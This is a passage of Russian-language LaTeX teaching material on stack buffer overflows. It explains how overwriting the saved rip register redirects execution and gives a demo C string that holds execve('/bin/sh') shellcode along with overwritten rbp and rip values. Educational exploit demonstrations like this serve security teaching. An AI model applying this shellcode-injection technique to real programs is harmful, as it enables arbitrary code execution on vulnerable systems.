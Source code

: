 Адрес начала кадра, а также, возможно, адреса локальных массивов и переменных выравнены на границу параграфа в 16 байтов, из-за чего в стеке могут образоваться неиспользуемые байты.

Если в программе есть ошибка, которая может привести к переполнению выделенного буфера в стеке при копировании, есть возможность записать вместо сохраненного значения регистра -- \texttt{rip} новое. В результате по завершении данной функции исполнение начнется с указанного адреса. Если есть возможность записать в переполняемый буфер исполняемый код, а затем на место сохраненного регистра \texttt{rip} адрес на этот код, то получим исполнение заданного кода в стеке функции.

На рис. \ref{fig:stack-overflow} приведено содержимое стека до и после переполнения буфера, в результате которого записалось новое сохраненное значение \texttt{rip}.

\begin{figure}[h!]
	\centering
	\texttt{[image: pic/stack-overflow]}
	\caption{Исходный стек и стек с переполнением буфера\label{fig:stack-overflow}}
\end{figure}


Изменим программу для демонстрации, поместив в копируемую строку исполняемый код для вызова \texttt{/bin/sh}.
{ \small
\begin{verbatim}
...
int main() {
  char text[68] =
    // 28 байтов исполняемого кода
    "\x90" "\x90" "\x90"                // nop; nop; nop
    "\x48\x31" "\xD2"                   // xor %rdx, %rdx
    "\x48\x31" "\xF6"                   // xor %rsi, %rsi
    "\x48\xBF" "\xDC\xEA\xFF\xFF"
    "\xFF\x7F\x00\x00"                  // mov $0x7fffffffeadc,
                                        //   %rdi
    "\x48\xC7\xC0" "\x3B\x00\x00\x00"   // mov $0x3b, %rax
    "\x0F\x05"                          // syscall
    // 8 байтов строки /bin/sh
    "\x2F\x62\x69\x6E\x2F\x73\x68\x00"  // "/bin/sh\0"
    // 12 байтов заполнения и 16 байтов новых
    // значений сохраненных регистров
    "\x00\x00\x00\x00"                  // не занятые байты
    "\x00\x00\x00\x00"                  // unsigned distance
    "\x00\x00\x00\x00"                  // unsigned diff
    "\x50\xEB\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rbp=0x7fffffffeb50
    "\xC0\xEA\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rip=0x7fffffffeac0
    ;
  ...
  return hamming_distance(b1, b2, text, 68);
  ...
}
\end{verbatim} }

